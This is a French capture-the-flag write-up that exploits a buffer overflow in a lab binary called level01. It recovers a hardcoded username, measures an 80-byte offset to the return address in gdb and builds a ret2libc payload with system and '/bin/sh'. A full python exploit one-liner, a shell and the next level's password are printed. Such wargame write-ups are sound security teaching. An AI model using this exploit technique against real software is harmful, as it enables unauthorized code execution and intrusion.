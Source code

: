 # Level 1

On commence par décompiler le code. On observe différentes choses intéressantes. On remarque que le programme attend 2 entrées. 

```C

fgets(a_user_name, 0x100, _reloc.stdin);
fgets(auStack84, 100, _reloc.stdin);

printf("Enter Username: ");
puts("Enter Password: ");
```

La fonction `fgets` est appelé 2 fois, on devra donc saisir 2 arguments en entrée standart.

Notre programme attend un `username` et un `password`. 
La vérification du `username` se fait de par la fonction `verify_user_name`.

```C
printf("Enter Username: ");
fgets(a_user_name, 0x100, _reloc.stdin);
iStack20 = verify_user_name();
```

Le code décompilé de cette fonction est assez incompréhensible. On observe une chaine de caractères dans le code.

```C
pcVar3 = (code *)"dat_wil";
```

On suppose que l'entrée attendu pour le `username` est `dat_wil`. On peut vérifier cela en rentrant cet `input` dans notre programme.

```
> ./level01
[...]
Enter Username: test_username
verifying username....

nope, incorrect username...
> ./level01
[...]
Enter Username: dat_wil
verifying username....

Enter Password:
```
Notre hypothèse est vérifiée, notre programme attend `dat_wil` comme `username`.

Pour le `password`, cela semble plus complexe. En effet, le programme semble r'envoyer dans tout les cas `nope, incorrect password ...\n`.

```C
if (iStack20 == 0) {
	puts("Enter Password: ");
	fgets(auStack84, 100, _reloc.stdin);
	iStack20 = verify_user_pass((char *)auStack84);
	if ((iStack20 == 0) || (iStack20 != 0)) {
		puts("nope, incorrect password...\n");
		uVar1 = 1;
	}
	else {
		uVar1 = 0;
	}
}
```

On voit qu'au moment de la vérification du `password`, une fonction `verify_user_pass` est appelée. 

Le code décompilé de cette fonction n'est pas lisible. On voit seulement une chaine de caractères en dur dans le code 

```C
puVar2 = (uint8_t *)"admin";
```

En essayant de mettre `admin` comme `password`, on obtient toujours le même résultat, à savoir `nope, incorrect password...`

La fonction `fgets` nous permet de saisir notre `password`.
On observe que notre `input` sera stocké dans un `buffer` de 16 et que 100 caractères seront lu.

```C
undefined4 auStack84 [16];
fgets(auStack84, 100, _reloc.stdin);
```

Nous allons afficher la `stack` pour voir ce qu'il se passe lorsqu'on saisit un `password`.

```
> gdb ./level01
> (gdb) disass main 
[...]
 	0x08048574 <+164>:	call   0x8048370 <fgets@plt>
	0x08048579 <+169>:	lea    0x1c(%esp),%eax
   	0x0804857d <+173>:	mov    %eax,(%esp)
   	0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
> (gdb) b *0x08048580
[...]
> (gdb) r 
[...]
Enter Username: dat_wil
[...]
Enter Password:
AAAA

Breakpoint 1, 0x08048580 in main ()
> (gdb) x $esp
0xffffd680:	0xffffd69c
> (gdb) x $ebp+0x04
0xffffd6ec:	0xf7e45513
> (gdb) x/30wx $esp
0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
		            ^
					adresse du buffer
0xffffd690:	0xffffd8ac	0x0000002f	0xffffd6ec	0x41414141
												  ^
												  AAAA
0xffffd6a0:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
												^
												eip
0xffffd6f0:	0x00000001	0xffffd784
```

On observe plusieurs choses très intéressantes. Tout d'abord, on a `break` après le `fgets` contenant notre `input` `password`. 
Nous avons mis `AAAA` afin de les repérer dans la `stack`.
Nous avons visualisé l'adresse de notre `buffer` : `0xffffd69c` ainsi que celle de `eip` : `0xffffd6ec`. 
L'adresse du début du `buffer` est située à l'adresse pointée par `esp`. C'est l'argument de la fonction `fgets`.
L'adresse de `eip` est stockée à `ebp+0x04`.

Pour connaître le nombre de caractère necessaires afin d'atteindre `eip`, nous pouvons effectuer ce calcul :

```
nombre_de_caractères = adresse_eip - adresse_buffer
                     = 0xffffd6ec - 0xffffd69c
                     = 0x50
                     = 80 (base 10)
```

Il faudra alors mettre 80 caractères pour écraser `eip`. Nous avons vu précédement que la fonction `fgets` lisait 100 caractère. En mettant 80 caractères, nous pourrons donc écraser `eip`.

Notre programme n'exécute pas de `shell`. Nous pouvons écraser `eip`. L'exploit `RetToLibC` semble réalisable.
Pour ce faire, nous allons construire notre exploit de cette façon : 

```
[username_valide] + [80 caractères] + [adresse_retour_system] + [DAMN] + [adresse_bin_sh]
```

Trouvons maintenant l'adresse  `system` et de `bin/sh`. 

```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
[...]
```
Nous pouvons maintenant construire notre payload. 

```
[dat_wil\n] + [A*80] + [\xd0\xae\xe6\xf7] + [DAMN] + [\xec\x97\xf8\xf7]

python -c 'print "dat_wil\n"+"A"*80+"\xd0\xae\xe6\xf7"+"DAMN"+"\xec\x97\xf8\xf7"' > /tmp/hack01
cat /tmp/hack01 - | ./level01
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```